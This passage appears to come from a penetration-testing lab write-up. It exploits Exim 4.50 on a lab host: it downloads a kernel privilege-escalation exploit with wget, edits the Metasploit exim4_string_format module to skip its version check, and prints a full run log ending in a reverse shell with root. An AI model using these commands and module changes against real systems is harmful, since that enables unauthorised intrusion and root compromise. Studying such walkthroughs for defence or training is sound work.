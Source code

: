 Kernel is vulnerable too, using this exploit we can get uid 0 privileges:
{% codeblock %}
sh-2.05b$ wget -O socksend.c http://www.exploit-db.com/download/9479
{% endcodeblock %}

In Metasploit is there is another module which we can use to exploit Exim4
(exploit/unix/smtp/exim4_string_format). To make it work correctly, we need
to comment the following lines and also change exim to exim4:
{% codeblock lang:ruby %}
114     #if not datastore['SkipVersionCheck'] and self.banner !~ /Exim 4\.6\d+/i
115     #  fail_with(Failure::Unknown, "Warning: This version of Exim is not exploitable")
116     #end
...
341       sock.put("PATH=/bin:/sbin:/usr/sbin:/usr/bin:/usr/local/sbin:/usr/local/bin exim4 -C#{temp_conf} -q\n")
{% endcodeblock %}

{% codeblock %}
msf exploit(exim4_string_format) > rexploit
[*] Reloading module...

[*] Started reverse double handler
[*] Connecting to 192.168.80.143:25 ...
[*] Server: 220 localhost.localdomain ESMTP Exim 4.50 Sat, 09 May 2015 07:53:30 +0200
[*] EHLO: 250-localhost.localdomain Hello cpR0uwxe.com [192.168.80.137]
[*] EHLO: 250-SIZE 52428800
[*] EHLO: 250-PIPELINING
[*] EHLO: 250 HELP
[*] Determined our hostname is cpR0uwxe.com and IP address is 192.168.80.137
[*] MAIL: 250 OK
[*] RCPT: 250 Accepted
[*] DATA: 354 Enter message, ending with "." on a line by itself
[*] Constructing initial headers ...
[*] Constructing HeaderX ...
[*] Constructing body ...
[*] Sending 50 megabytes of data...
[*] Ending first message.
[*] Result: "552 Message size exceeds maximum permitted\r\n"
[*] Sending second message ...
[*] MAIL result: "250 OK\r\n"
[*] RCPT result: "sh-2.05b$ "
[*] Looking for Perl to facilitate escalation...
[*] Perl binary detected, attempt to escalate...
[*] Using Perl interpreter at /usr/bin/perl...
[*] Creating temporary files /var/tmp/oYEMVjYJ and /var/tmp/LCpxpIyv...
[*] Attempting to execute payload as root...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QDibz6UzrEBUyJQT;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QDibz6UzrEBUyJQT\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.80.137:4444 -> 192.168.80.143:32803) at 2015-05-06 07:40:24 +0200

id
uid=0(root) gid=0(root)
{% endcodeblock %}
